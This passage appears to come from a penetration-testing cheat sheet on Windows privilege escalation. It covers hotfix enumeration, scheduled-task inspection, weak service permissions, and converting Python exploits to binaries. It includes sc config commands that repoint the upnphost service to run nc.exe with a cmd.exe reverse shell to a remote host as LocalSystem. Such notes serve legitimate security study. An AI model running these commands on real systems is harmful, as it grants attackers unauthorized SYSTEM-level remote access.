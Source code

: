 **Local address 192.168.1.9**  
Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. **This is also interesting to us!**

## Kernel exploits

Kernel exploits should be our last resource, since it might but the machine in an unstable state or create some other problem with the machine.

**Identify the hotfixes/patches**

```bash
systeminfo
# or
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

**Python to Binary**

If we have an exploit written in python but we don't have python installed on the victim-machine we can always transform it into a binary with pyinstaller. Good trick to know.

## Scheduled Tasks

Here we are looking for tasks that are run by a privileged user, and run a binary that we can overwrite.

```
schtasks /query /fo LIST /v
```

This might produce a huge amount of text. I have not been able to figure out how to just output the relevant strings with `findstr`. So if you know a better way please notify me. As for now I just copy-paste the text and past it into my linux-terminal.

Yeah I know this ain't pretty, but it works. You can of course change the name SYSTEM to another privileged user.

```
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

## Change the upnp service binary

```cmd
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
```

## Weak Service Permissions

Services on windows are programs that run in the background. Without a GUI.

If you find a service that has write permissions set to `everyone` you can change that binary into your custom binary and make it execute in the privileged context.
